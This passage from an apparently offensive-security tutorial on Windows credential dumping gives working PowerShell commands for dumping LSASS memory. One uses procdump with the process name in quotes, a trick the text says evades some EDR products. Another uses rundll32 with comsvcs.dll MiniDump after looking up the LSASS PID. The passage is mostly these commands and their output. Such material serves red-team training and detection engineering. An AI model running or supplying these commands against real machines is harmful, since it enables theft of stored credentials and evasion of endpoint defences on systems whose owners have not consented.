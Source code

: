 Additionally, depending on the EDR, you can simply add quotes around the transaction name

| 1 2 3  | PS C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma “lsass.exe” out.dmp \#or PS C:\\Users\\0xhav0c\> procdump.exe -accepteula -ma 'lsass.exe' out.dmp  |
|--------|---------------------------------------------------------------------------------------------------------------------------------------------------------|

![Untitled](media/045a1f82117682dd0f72653894d76e03.png)

Method 3- Getting LSASS Dump with Comsvcs

With Comsvcs you can create a memory dump using native libraries available on Windows machines.

| 1 2 3 4 5  | \# Detect the PID for lsass.exe PS C:\\Users\\0xhav0c\> tasklist \| findstr lsass lsass.exe 524 Services 0 51,752 K \# Dumping LSASS.exe PS C:\\Users\\0xhav0c\> C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump 524 C:\\temp\\out.dmp full  |
|------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

![Finding lsass.exe pid and getting LSASS dump with Comsvcs.](media/70c4b17f85444a7940f4c66e227e8f53.png)Finding lsass.exe pid and getting LSASS dump with Comsvcs.
